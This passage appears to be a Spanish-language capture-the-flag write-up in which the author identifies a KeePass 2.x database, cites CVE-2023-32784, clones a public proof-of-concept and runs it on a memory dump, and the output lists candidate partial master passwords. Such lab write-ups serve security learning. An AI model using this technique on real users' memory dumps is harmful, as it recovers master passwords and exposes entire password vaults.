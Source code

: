 Revisamos el tipo de archivo que era, y nos percatamos que se trataba de un archivo de `Keepass password database 2.x`.

```bash
❯ file passcodes.kdbx
passcodes.kdbx: Keepass password database 2.x KDBX
```

Revisando posibiles vulnerabilidades sobre esta versión de **KeePass**, nos encontramos con el siguiente `CVE-2023-32784`.

{% embed url="https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2023-32784" %}

{% hint style="danger" %}
En KeePass v2.x anterior a v2.54, es posible recuperar la contraseña maestra en texto claro a partir de un volcado de memoria, incluso cuando un espacio de trabajo está bloqueado o ya no se ejecuta. El volcado de memoria puede ser un volcado de proceso de KeePass, un archivo de intercambio (pagefile.sys), un archivo de hibernación (hiberfil.sys) o un volcado de RAM de todo el sistema. El primer carácter no se puede recuperar. En la versión 2.54, hay un uso diferente de la API y/o inserción de una cadena aleatoria para la mitigación.
{% endhint %}

Nos descargamos el proyecto de GitHub para realizar la explotación de la vulnerabilidad, para verificar si funciona o no.

{% embed url="https://github.com/CMEPW/keepass-dump-masterkey" %}

```bash
❯ git clone https://github.com/CMEPW/keepass-dump-masterkey; cd keepass-dump-masterkey
Clonando en 'keepass-dump-masterkey'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 9 (delta 0), reused 6 (delta 0), pack-reused 0 (from 0)
Recibiendo objetos: 100% (9/9), 32.52 KiB | 951.00 KiB/s, listo.
```

Al ejecutar el exploit pasándole el archivo `KeePassDumpFull.dmp` que obtuvimos, nos encontramos que al parecer ha logrado obtener lo que parece ser la posible contraseña del archivo de KeePass.

En este caso, el resultado al parecer hay algunos carácteres que parecen no ser de `UTF-8` y por dicho motivo el script no lo interpreta.

```bash
❯ python3 poc.py ../KeePassDumpFull.dmp
2025-01-26 14:28:06,549 [.] [main] Opened ../KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```
